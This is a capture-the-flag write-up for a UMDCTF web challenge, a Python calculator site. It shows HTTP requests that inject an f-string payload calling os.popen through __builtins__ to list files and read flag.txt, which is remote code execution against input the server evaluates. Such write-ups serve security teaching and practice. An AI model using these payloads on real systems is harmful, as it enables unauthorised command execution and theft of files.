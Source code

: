 # Advantageous Adventures 1

The site presents several different calculators where you can put in two inputs and receive a result:

![calc](images/calc.png)

Trying it out:

```http
POST /mult HTTP/1.1

val1=4&val2=4
```

```http
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 2
Server: Werkzeug/0.16.1 Python/3.8.5
Date: Mon, 19 Apr 2021 12:58:58 GMT

16
```

Ok, as expected we see our multiplication result. We can also make a note that the server is running Python.

Multiplication is also defined with strings in Python. Let's see if the server will process a string input:

```http
POST /mult HTTP/1.1

val1="HelloWorld"&val2=4
```

```http
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 40
Server: Werkzeug/0.16.1 Python/3.8.5
Date: Mon, 19 Apr 2021 13:07:22 GMT

HelloWorldHelloWorldHelloWorldHelloWorld
```

We can try using a format string with some python code embedded to achieve remote code execution and view the filesystem:

```http
POST /mult HTTP/1.1

val1=f"{__builtins__['__import__']('os').__dict__['popen']('ls').read()}"&val2=1
```

```http
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 95
Server: Werkzeug/0.16.1 Python/3.8.5
Date: Mon, 19 Apr 2021 13:10:54 GMT

Dockerfile
README.md
__pycache__
app.py
flag.txt
secret_info
secret_script.py
static
templates
```

Finally, we can `cat` the flag:

```http
POST /mult HTTP/1.1

val1=f"{__builtins__['__import__']('os').__dict__['popen']('cat+flag.txt').read()}"&val2=1
```

```http
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 22
Server: Werkzeug/0.16.1 Python/3.8.5
Date: Mon, 19 Apr 2021 13:18:12 GMT

UMDCTF-{pl3z_n0_3v4l}
```

